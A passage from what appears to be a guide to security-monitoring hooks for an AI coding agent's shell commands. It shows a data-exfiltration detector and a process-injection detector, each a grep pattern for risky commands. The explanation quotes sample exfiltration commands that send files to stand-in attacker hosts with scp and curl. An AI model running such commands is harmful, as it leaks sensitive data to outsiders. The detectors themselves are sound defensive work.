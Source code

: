 **Why this aids malware detection**: Unknown or modified binaries could be malware, backdoors, or compromised tools. This hook creates an execution log with SHA256 hashes that can be checked against malware databases or used for forensic analysis. It's like having a program execution audit trail that helps identify suspicious software and track binary provenance.

### 33. Data Exfiltration Detector
### *The "Data Leaving the Building" Monitor* 📤

**Simple explanation**: Like having a security guard who notices when someone is carrying boxes of documents out of the office. This hook detects commands that transfer data to external systems and logs where the data is going.

```json
{
  "hooks": {
    "PreToolUse": [
      {
        "matcher": "Bash",
        "hooks": [
          {
            "type": "command",
            "command": "bash -c 'if echo \"$1\" | grep -qE \"(curl.*-T|scp|rsync.*ssh|tar.*ssh)\"; then echo \"📤 SECURITY: Potential data transfer detected\"; echo \"Destination: $(echo \"$1\" | grep -oE \"[a-zA-Z0-9.-]+@[a-zA-Z0-9.-]+\")\"; fi' -- $(jq -r '.tool_input.command')"
          }
        ]
      }
    ]
  }
}
```

**Why this catches data theft**: Data exfiltration is how attackers steal sensitive information from compromised systems. Commands like `scp sensitive_file.txt attacker@evil.com` or `curl -T database.sql http://malicious.site` are red flags. This hook creates visibility into data transfers, helping detect both legitimate backups and malicious data theft attempts.

### 34. Process Injection Monitor
### *The "Memory Tampering" Detector* 💉

**Simple explanation**: Like having a security system that alerts when someone tries to mess with other people's work or inject themselves into ongoing projects. This hook detects attempts to attach debuggers or inject code into running processes.

```json
{
  "hooks": {
    "PreToolUse": [
      {
        "matcher": "Bash",
        "hooks": [
          {
            "type": "command",
            "command": "bash -c 'if echo \"$1\" | grep -qE \"(gdb.*attach|ptrace|inject|/proc/[0-9]+/mem)\"; then echo \"💉 SECURITY: Potential process injection/debugging detected\"; echo \"Target: $(echo \"$1\" | grep -oE \"[0-9]+\" | head -1)\"; fi' -- $(jq -r '.tool_input.command')"
          }
        ]
      }
    ]
  }
}
```
